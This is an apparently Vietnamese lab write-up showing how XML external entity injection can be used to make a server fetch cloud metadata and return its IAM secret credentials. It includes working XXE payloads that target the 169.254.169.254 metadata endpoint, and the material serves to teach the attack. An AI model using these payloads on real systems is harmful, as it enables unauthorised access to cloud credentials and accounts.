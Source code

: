 ## Exploiting XXE to perform SSRF attacks

> Mục đích của Lab là muốn chúng tận dụng khai thác lỗi hổng XXE tấn công ssrf lấy được IAM secret key của server ec2

Vẫn bắt lại request như Lab1, nhưng chúng ta sẽ trỏ tới server như description của Lab.

![](/imgs/XXE/7.png?raw=true)

Request trả về là không biết id là lastest (có thể đây là path chưa đúng)

Tiếp tục gửi tới 

```XML
<!DOCTYPE test [ <!ENTITY test SYSTEM "http://169.254.169.254/latest"> ]> 
```

chúng ta sẽ nhận được

![](/imgs/XXE/8.png?raw=true)

Vẫn thiếu, ta sẽ thêm tiếp ***meta-data*** vào path và cứ lặp lại cho tới khi nào lấy được dữ liệu cuối cùng.

```XML
<!DOCTYPE test [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

![](/imgs/XXE/9.png?raw=true)
![](/imgs/XXE/10.png?raw=true)

### Tài Liệu Tham Khảo
- Một số CheatSheet: [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)